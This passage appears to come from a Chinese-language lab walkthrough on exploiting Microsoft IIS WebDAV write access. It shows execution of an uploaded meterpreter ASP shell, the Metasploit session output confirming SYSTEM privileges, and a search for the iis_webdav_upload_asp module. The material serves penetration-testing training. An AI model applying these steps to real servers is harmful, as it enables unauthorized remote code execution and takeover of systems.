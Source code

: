 ```

```

所以为了执行它，我们回到`/webdav/`目录并点击shell.asp。它已被执行。

如果你回到终端，你可以看到它正在进入发送阶段，它告诉我们meterpreter session 1 已打开，我们已成功获得对目标系统的访问权限。

获取我们当前的特权：

```
meterpreter > sysinfo
Computer        : AD-IIS
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 10.0.20.119 - Meterpreter session 1 closed.  Reason: Died
msf6 exploit(multi/handler) > sessions

Active sessions
===============

No active sessions.

```

这是您可以利用的技术之一，通过生成有效负载的过程，使用cadaver手动上传。

您可以使用另一种技术，该技术本质上涉及使用 metasploit 框架模型，该模型使我们能够自动化整个过程。

这允许我们上传恶意或meterpreter ASP 文件，这将自动为我们提供meterpreter 会话到webdav 服务器。

[Microsoft IIS WebDAV Write Access Code Execution](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_upload_asp/)

This module can be used to execute a payload on IIS servers that have world-writeable directories. The payload is uploaded as an ASP script via a WebDAV PUT request. The target IIS machine must meet these conditions to be considered as exploitable: It allows 'Script resource access', Read and Write permission, and supports ASP.

```
root@attackdefense:~# msfconsole -q
msf6 > search iis upload

Matching Modules
================

   #  Name                                                             Disclosure Date  Rank       Check  Description
   -  ----                                                             ---------------  ----       -----  -----------
   0  exploit/windows/scada/advantech_webaccess_dashboard_file_upload  2016-02-05       excellent  Yes    Advantech WebAccess Dashboard Viewer uploadImageCommon Arbitrary File Upload
   1  exploit/windows/iis/iis_webdav_upload_asp                        2004-12-31       excellent  No     Microsoft IIS WebDAV Write Access Code Execution
   2  exploit/windows/http/umbraco_upload_aspx                         2012-06-28       excellent  No     Umbraco CMS Remote Command Execution


Interact with a module by name or index. For example info 2, use 2 or use exploit/windows/http/umbraco_upload_aspx
```